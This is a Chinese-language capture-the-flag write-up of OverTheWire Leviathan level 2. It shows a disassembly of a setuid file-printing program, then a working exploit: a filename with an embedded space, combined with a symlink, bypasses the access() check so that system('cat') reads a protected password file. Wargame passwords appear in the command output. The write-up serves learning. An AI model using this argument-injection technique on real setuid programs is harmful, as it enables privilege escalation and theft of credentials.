 ```gas
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret    
End of assembler dump.
```

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

> The access() function shall check the file named by the pathname pointed to by the path argument for accessibility  according  
> to  the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in   
> place of the effective group ID.**

而 `suid` 权限改变的只是进程的 `euid`，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是[不可行](http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`。

到这里我就没辙了，只能看别人的 writeup 了：[OverTheWire Leviathan Wargame Solution 2](https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/)，看完发现脑洞确实不够大。

**Solution:**  
access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`，对于 access 函数来说是执行了 `access("flag here", 4)`, 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")` = `system*("cat flag; cat here")`，因此可以利用这个区别来绕过 access 函数。

```shell
leviathan2@melinda:/tmp$ mkdir slove
leviathan2@melinda:/tmp$ cd slove
leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
leviathan2@melinda:/tmp/slove$ ls
flag  flag here
leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
Ahdiemoo1j
/bin/cat: here: No such file or directory
```

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了：

```shell
leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```
